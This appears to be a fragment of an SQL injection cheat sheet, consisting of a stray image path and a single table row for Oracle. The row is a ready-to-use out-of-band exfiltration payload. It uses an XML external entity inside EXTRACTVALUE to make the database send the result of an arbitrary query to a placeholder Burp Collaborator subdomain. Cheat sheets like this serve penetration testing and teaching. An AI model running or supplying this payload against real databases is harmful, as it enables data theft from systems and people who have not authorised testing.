 | Oracle     | `SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'\|\|(SELECT YOUR-QUERY-HERE)\|\|'.BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual `                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                  |